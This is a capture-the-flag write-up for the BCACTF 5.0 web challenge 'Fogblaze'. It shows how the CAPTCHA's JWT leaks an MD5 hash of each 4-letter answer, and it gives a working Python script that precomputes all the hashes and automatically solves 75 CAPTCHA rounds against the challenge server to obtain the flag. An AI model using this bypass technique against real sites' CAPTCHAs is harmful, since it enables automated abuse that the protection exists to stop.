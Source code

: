 # BCACTF 5.0

## Fogblaze

> Can you bypass this website's new stateless CAPTCHA system?
> 
> Author: Thomas
> 

Tags: _web__

## Solution
For this challenge only a webpage is given. If we open it we need to solve a [`captcha challenge`](https://en.wikipedia.org/wiki/CAPTCHA) with two steps. After this two links are displayed: `Lorem Ipsum` and `The Flag`. The second one sounds good lets go to it.. Another captcha, but this time with 75 steps.

![](captcha.png)

The captcha challenge has a time out, so we never can reach the last step entering the values manually. So what can we do? First lets inspect the source code, how things are wired together.

The source obviously is "obfuscated" but we select the `Submit` element and check what code is bound to the `click` event. Lets set a breakpoint so we can debug the code.

```js
, V = async()=>{
        !u.length || s.done || (await P({
            captchaToken: s.captchaToken,
            word: u
        }),
        t(5, u = ""),
        s.done && (t(2, h = !1),
        f = setTimeout(()=>{
            f = null,
            ue(d + "?token=" + s.captchaToken)
        }
        , 1e3)))
    }
```

The function first calls function `P` with `{captchaToken: s.captchaToken, word: u}`. The word contains the user input and the token is a `jwt`, we inspect in a minute. Function `P` does a `POST` request to `/captcha`.

```js
, P = async r=>{
        t(6, k = !0),
        t(7, D = null);
        const m = await fetch("/captcha", {
            method: "POST",
            body: JSON.stringify(r),
            headers: {
                "content-type": "application/json"
            }
        })
          , E = await m.json().catch(()=>({
            error: m.statusText ?? `Error ${m.status}`
        }));
        if (t(6, k = !1),
        !m.ok) {
            t(7, D = E.error);
            return
        }
        E.done ? (t(4, s.captchaToken = E.captchaToken, s),
        t(4, s.done = !0, s)) : t(4, s = E)
    }
```

Now we look at the token, putting it to [`jwt.io`](https://jwt.io/) gives us the following informations. We have a capture id, the route which we want to enter and a challenge id. Also how many challenges where solved already, how many challenges we need to solve in total, if we are done and the expiry information. The token is signed, so forging a fake token is probably not an option here.

```json
{
  "captchaId": "9b32058d-a8f7-44f2-a56a-0e15ba6f6041",
  "routeId": "/flag",
  "challengeId": "0a9e5623854760fafc65a22a5401fa4c",
  "solved": 0,
  "total": 75,
  "done": false,
  "iat": 1718138779,
  "exp": 1718138839
}
```

Lets inspect what happens when the user wants to start solving the challenge (by clicking `I am not a robot`). Save procedure as before, we select the checkbox element and check what function is bound to the click event.

```js
, M = async()=>{
        s.done || (await P({
            routeId: d
        }),
        t(2, h = !0))
    }
```

Again function `P` is called, but with different arguments: `{ routeId: d }`. Looks like the whole logic is handled by a single endpoint. The plan is to automate the process, we need a script that calls to `/captcha` with `{ routeId: '/flag' }` to initiate the process. And then does 75 calls to `/captcha` with `{captchaToken: currentToken, word: solution}`. The next token will always be given as result to the call, so the captcha system knows we solved the previous step and didn't take shortcuts. The only thing left is to find the correct solution.

We have one more piece if information in the token, that is the `challengeId`. Its a hash and changes for every challenge. After debugging a while it's clear that the challenge id is just the md5 hash of the 4 character word we need to enter. Since the word always has 4 characters and the alphabet used is uppercase A-Z we can just precompute all the hashvalues for every possible combination.

```python
import itertools
possible_challenges = itertools.product(string.ascii_uppercase, repeat=4)
capture_ids = [(''.join(p), hashlib.md5(''.join(p).encode()).hexdigest()) for p in possible_challenges]
```

This gives us `456976` combinations of a challenge word and the md5 hash.

```bash
AAAA 098890dde069e9abad63f19a0d9e1f32
AAAB 7d578bb564c511ca301f558528bde644
AAAC a1492afabde918a47da2a2c5b1dba15c
AAAD a43eefb5352d17b8de3a354b017c4021
AAAE 0459e61e3c13af7a8443fa076710870d
AAAF fdb8462e0c867d910f5818aa7eb4209b
AAAG e9b42bc37031ebb041dd88cab85c1735
AAAH c692c208cd6f0276ffba6c9637efcaf9
AAAI e0523bb0fa5c7d0576ca82b5f2735810
AAAJ e1e29ba38827d12562a402984e932afb
...
```

The next part is trivial, we just need to initiate the process, parse the token and get the challenge id. Then search to corresponding word and send it as the answer and repeat this step 75 times.

```python
import requests, json, itertools, string, hashlib
from base64 import b64decode

# precompute the challenge ids
possible_challenges = itertools.product(string.ascii_uppercase, repeat=4)
capture_ids = [(''.join(p), hashlib.md5(''.join(p).encode()).hexdigest()) for p in possible_challenges]


# initiate the capture process
resp = requests.post('http://challs.bcactf.com:30311/captcha?destination=/flag', json={'routeId':'/flag'})
resp = json.loads(resp.text)

# now solve all the captcha challenges
while not resp["done"]:
    print(f"Solved {resp['solved']} of {resp['total']} challenges")

    # extract the challenge id and search to corresponding word
    token_data = json.loads(b64decode(resp["captchaToken"].split(".")[1].encode() + b"=="))
    challenge_id = token_data['challengeId']

    print(f"searching word for {challenge_id}...", end="")
    captcha_word = ""
    for _id in capture_ids:
        if _id[1] == challenge_id:
            captcha_word = _id[0]
            break

    print(f"found {captcha_word}")

    # now send the answer and request the next challenge
    data = {
        "captchaToken" : resp["captchaToken"],
        "word": captcha_word
    }
    resp = requests.post("http://challs.bcactf.com:30311/captcha", json=data)
    resp = json.loads(resp.text)

# if we are done, fetch the /flag endpoint with the last token
resp = requests.get("http://challs.bcactf.com:30311/flag?token=" + resp["captchaToken"])
print(resp.text)
```

Running this script gives us finally the flag.

```bash
searching word for 15e4ee7339db1ed22dae64f97e7c0eb5...found FSZJ
Solved 70 of 75 challenges
searching word for 6a7641fbfc44628d12c12f59d6395318...found HTTV
Solved 71 of 75 challenges
searching word for 936a485601bc514a98a78eb269d0c4cb...found RPRZ
Solved 72 of 75 challenges
searching word for 30dac723f194269d264592d59767cc57...found MMBZ
Solved 73 of 75 challenges
searching word for 8565ded22622e14cd4606843e3558b31...found AIEF
Solved 74 of 75 challenges
searching word for 81fa661f3ef6b4e91bb1677c40d8932a...found QIJW
...
<div style="display: contents">  <div class="p-3"><h1 data-svelte-h="svelte-8wkp5b">The Flag</h1> <p>bcactf{b33p_B0oP_iM_a_B0t_1b728b571b9a}</p></div>
...
```

Flag `bcactf{b33p_B0oP_iM_a_B0t_1b728b571b9a}`